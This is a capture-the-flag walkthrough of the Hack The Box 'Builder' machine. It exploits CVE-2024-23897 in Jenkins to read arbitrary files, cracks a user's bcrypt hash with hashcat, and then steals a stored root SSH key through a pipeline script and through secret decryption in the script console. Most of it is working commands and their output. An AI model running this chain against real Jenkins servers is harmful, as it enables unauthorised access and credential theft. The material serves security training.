

# Builder


Machine: [https://app.hackthebox.com/machines/Builder](https://app.hackthebox.com/machines/Builder)

Created by: [polarbearer](https://app.hackthebox.com/users/159204) & [amra13579](https://app.hackthebox.com/users/123322)

Difficulty: Medium

OS: Linux

## Machine Info

Builder is a medium-difficulty Linux machine that features a Jenkins instance. The Jenkins instance is found to be vulnerable to the [CVE-2024-23897](https://www.cvedetails.com/cve/[CVE-2024-23897](https://nvd.nist.gov/vuln/detail/CVE-2024-23897)/) vulnerability that allows unauthenticated users to read arbitrary files on the Jenkins controller file system. An attacker is able to extract the username and password hash of the Jenkins user `jennifer`. Using the credentials to login into the remote Jenkins instance, an encrypted SSH key is exploited to obtain root access on the host machine.

## Enumeration

### Nmap

```shell
labadmin@labmachine:~/builder$ nmap -p- --min-rate 1000 -oN builder-default-nmap.log 10.10.11.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 22:58 PDT
Warning: 10.10.11.10 giving up on port because retransmission cap hit (10).
Nmap scan report for 10.10.11.10
Host is up (0.26s latency).
Not shown: 65433 closed tcp ports (conn-refused), 100 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 94.57 seconds

labadmin@labmachine:~/builder$ nmap -p 22,8080 -sV -sC -oN builder-sv-sc-nmap.log 10.10.11.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 23:04 PDT
Nmap scan report for 10.10.11.10
Host is up (0.28s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-open-proxy: Potentially OPEN proxy.
|_Methods supported:CONNECTION
|_http-server-header: Jetty(10.0.18)
| http-robots.txt: 1 disallowed entry
|_/
|_http-title: Dashboard [Jenkins]
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.25 seconds
```

Nmap reveals 2 open ports:

- 22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
- 8080/tcp open  http    Jetty 10.0.18


### HTTP port 8080

Navigating to `http://10.10.11.10:8080/` we come to a Jenkins Dashboard.


And on the dashboard, we see it is Jenkins version 2.441.

Under people we find 2 users, jennifer and anonymous. Can't do anything with them.


Build history is clean.


Under Credentials we find a ssh key for root user, but we cannot get access to it.


Searching online for potential vulnerabilities related to Jenkins version 2.441 we find [CVE-2024-23897](https://www.cvedetails.com/cve/CVE-2024-23897/). Jenkins also announce the vulnerability at [https://www.jenkins.io/security/advisory/2024-01-24/](https://www.jenkins.io/security/advisory/2024-01-24/). It is file read vulnerability through the CLI that can lead to Remote Code Execution (RCE).

## Foothold

To start with we download the Jenkins CLI client from server side. Procedure to download is documented at [https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client](https://www.jenkins.io/doc/book/managing/cli/#downloading-the-client).

```shell
labadmin@labmachine:~/builder$ wget http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
--2024-04-15 23:44:52--  http://10.10.11.10:8080/jnlpJars/jenkins-cli.jar
Connecting to 10.10.11.10:8080... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3623400 (3.5M) [application/java-archive]
Saving to: ‘jenkins-cli.jar’

jenkins-cli.jar               100%[=================================================>]   3.46M   246KB/s    in 14s

2024-04-15 23:45:06 (256 KB/s) - ‘jenkins-cli.jar’ saved [3623400/3623400]
```

To test the Jenkins CLI client we successfully query the Jenkins version.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version
2.441
```

As next step we test file read and get more information of the host reading `/proc/self/environ`

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version @/proc/self/environ

ERROR: No argument is allowed: HOSTNAME=0f52c222a4ccJENKINS_UC_EXPERIMENTAL=https://updates.jenkins.io/experimentalJAVA_HOME=/opt/java/openjdkJENKINS_INCREMENTALS_REPO_MIRROR=https://repo.jenkins-ci.org/incrementalsCOPY_REFERENCE_FILE_LOG=/var/jenkins_home/copy_reference_file.logPWD=/JENKINS_SLAVE_AGENT_PORT=50000JENKINS_VERSION=2.441HOME=/var/jenkins_homeLANG=C.UTF-8JENKINS_UC=https://updates.jenkins.ioSHLVL=0JENKINS_HOME=/var/jenkins_homeREF=/usr/share/jenkins/refPATH=/opt/java/openjdk/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
java -jar jenkins-cli.jar version
Outputs the current version.
```

We find out the home directory is `JENKINS_HOME=/var/jenkins_home` and we can get the user.txt.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version @/var/jenkins_home/user.txt

ERROR: No argument is allowed: [OMITTED]
java -jar jenkins-cli.jar version
Outputs the current version.
```

During installation of Jenkins it will store initial administrator password for [unlocking-jenkins](https://www.jenkins.io/doc/book/installing/linux/#unlocking-jenkins) in `/var/lib/jenkins/secrets/initialAdminPassword`. It will need sudo permission and in addition to that, the Jenkins instance is already installed. When we try it we get `No such file` error.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' version @/var/lib/jenkins/secrets/initialAdminPassword

ERROR: No such file: /var/lib/jenkins/secrets/initialAdminPassword
java -jar jenkins-cli.jar version
Outputs the current version.
```

We also know that there is user information stored in users/users.xml so we read that too. Here using the connect-node command to get all lines of file, version script to one line only. Reference to users.xml [https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-1072](https://www.jenkins.io/security/advisory/2018-12-05/#SECURITY-1072).

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' connect-node @/var/jenkins_home/users/users.xml
<?xml version='1.1' encoding='UTF-8'?>: No such agent "<?xml version='1.1' encoding='UTF-8'?>" exists.
      <string>jennifer_12108429903186576833</string>: No such agent "      <string>jennifer_12108429903186576833</string>" exists.
  <idToDirectoryNameMap class="concurrent-hash-map">: No such agent "  <idToDirectoryNameMap class="concurrent-hash-map">" exists.
    <entry>: No such agent "    <entry>" exists.
      <string>jennifer</string>: No such agent "      <string>jennifer</string>" exists.
  <version>1</version>: No such agent "  <version>1</version>" exists.
</hudson.model.UserIdMapper>: No such agent "</hudson.model.UserIdMapper>" exists.
  </idToDirectoryNameMap>: No such agent "  </idToDirectoryNameMap>" exists.
<hudson.model.UserIdMapper>: No such agent "<hudson.model.UserIdMapper>" exists.
    </entry>: No such agent "    </entry>" exists.

ERROR: Error occurred while performing this command, see previous stderr output.
```

Here we got jennifer directory as `jennifer_12108429903186576833` and we know it will contain the users `config.xml`.

```shell
labadmin@labmachine:~/builder$ java -jar jenkins-cli.jar -s 'http://10.10.11.10:8080' connect-node @/var/jenkins_home/users/jennifer_12108429903186576833/config.xml
[OMITTED]
      <passwordHash>#jbcrypt:[OMITTED]</passwordHash>:
[OMITTED]
```

And we get a `jbcrypt` hash.

Checking Hashcat help we can look for the hash-mode.

```shell
labadmin@labmachine:~/builder$ hashcat --help | grep bcrypt
   3200 | bcrypt $2*$, Blowfish (Unix)                               | Operating System
  25600 | bcrypt(md5($pass)) / bcryptmd5                             | Forums, CMS, E-Commerce
  25800 | bcrypt(sha1($pass)) / bcryptsha1                           | Forums, CMS, E-Commerce
  28400 | bcrypt(sha512($pass)) / bcryptsha512                       | Forums, CMS, E-Commerce
```

We know the hash start with `$2a$` at that should match the hash-mode `3200` (blowfish). After putting the hash in a file we successfully cracked it using Hashcat with the rockyou word list.

```shell
labadmin@labmachine:~/builder$ echo '[OMITTED]' > jennifer.hash
labadmin@labmachine:~/builder$ hashcat -a 0 -m 3200 jennifer.hash /usr/share/wordlists/
dirb/        john.lst     metasploit/  nmap.lst     rockyou.txt  seclists/
labadmin@labmachine:~/builder$ hashcat -a 0 -m 3200 jennifer.hash /usr/share/wordlists/rockyou.txt
[OMITTED]
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

[OMITTED]:[OMITTED]

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 3200 (bcrypt $2*$, Blowfish (Unix))
Hash.Target......: $2a$10$UwR7BpEH.ccfpi1tv6w/XuBtS44S7oUpR2JYiobqxcDQ.../L4l1a
Time.Started.....: Tue Apr 16 00:34:56 2024 (0 secs)
Time.Estimated...: Tue Apr 16 00:34:56 2024 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:       56 H/s (8.11ms) @ Accel:4 Loops:32 Thr:1 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 16/14344385 (0.00%)
Rejected.........: 0/16 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:992-1024
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> jessica

Started: Tue Apr 16 00:34:52 2024
Stopped: Tue Apr 16 00:34:58 2024
```

Using jennifer credentials we now login to the Jenkins instance.


## Privilege Escalation

As we remember, there was a stored SSH key and we will focus on get hold of that key.

### Pipeline SSH

Exploring the plugins under `Dashboard --> Manage Jenkins --> Plugins` there is a `SSH Agent plugin`.


This means that we can create a pipeline and run commands using SSH. Let's check if the SSH key is valid for the host machine, as the root user.

To start with we create a pipeline by clicking the `Create a job` link on the Dashboard.

Select Pipeline.


Scrolling down to the `Pipeline` section we select `Pipeline Script` and use the scroll down list on right side to select the `Hello World` example.


```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
                echo 'Hello World'
            }
        }
    }
}
```

This gives us a simple Jenkins pipeline script. To add script block with SSH agent we click the `Pipeline Syntax` link, and in sample step we select `sshagent: SSH Agent` and select `root` in the scroll down list to make it select the item 1 in sshagent list, that is the root SSH key in Jenkins Credentials.


```groovy
sshagent(['1']) {
    // some block
}
```

Then in the `// some block` we add ssh command, that will SSH using the Jenkins Credentials, and cat the SSH key.

`sh 'ssh -o StrictHostKeyChecking=no root@10.10.11.10 "cat /root/.ssh/id_rsa"'`

Back to the pipeline script and put it all together, adding the SSH agent script into a `script` section in the Hello World. And we also remove the echo syntax.


```groovy
pipeline {
    agent any

    stages {
        stage('Hello') {
            steps {
              script {
                sshagent(['1']) {
                  sh 'ssh -o StrictHostKeyChecking=no root@10.10.11.10 "cat /root/.ssh/id_rsa"'
                  }
                }
            }
        }
    }
}
```

Once updated we save and end up on the job page of the pipeline we created. Here we click `Build Now` and wait for it to be completed.



Once completed we check the build logs.


And we get the SSH key for root user.


Here we can update the script and cat the root flag directly.
To get root access we will continue to get the SSH key and create a local ssh key to login as root.

Create the local key and chmod to `600`.

```shell
labadmin@labmachine:~/builder$ chmod 600 id_rsa

labadmin@labmachine:~/builder$ ls -l id_rsa
-rw------- 1 labadmin labadmin 2602 Apr 16 03:22 id_rsa
```

SSH as root and get the root flag.

```shell
labadmin@labmachine:~/builder$ ssh -i ./id_rsa root@10.10.11.10
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-94-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

  System information as of Tue Apr 16 10:25:15 AM UTC 2024

  System load:              0.0
  Usage of /:               66.7% of 5.81GB
  Memory usage:             40%
  Swap usage:               0%
  Processes:                214
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.10
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:e71c


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
See https://ubuntu.com/esm or run: sudo pro status


The list of available updates is more than a week old.
To check for new updates run: sudo apt update
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


Last login: Mon Feb 12 13:15:44 2024 from 10.10.14.40
root@builder:~# id
uid=0(root) gid=0(root) groups=0(root)
root@builder:~# ls -l
total 4
-rw-r----- 1 root root 33 Apr 16 04:04 root.txt
root@builder:~# cat root.txt
[OMITTED]
```

### Web page source code

Navigate to `Dashboard --> Manage Jenkins --> Credentials --> System --> Global credentials (unrestricted)` and click the update tool.


Next up, using Firefox we inspect the `Concealed for Confidentiality` by right click and select `Inspect`.


We can get the encrypted SSH key from this hidden field.


Copy this value and going to `http://10.10.11.10:8080/script` we can decode using this script.

```shell
 println( hudson.util.Secret.decrypt("{AQAA[OMITTED]KSM=}"))
```


Now we copy the key and create our local SSH key as in previous method, and login as root and get the root flag.
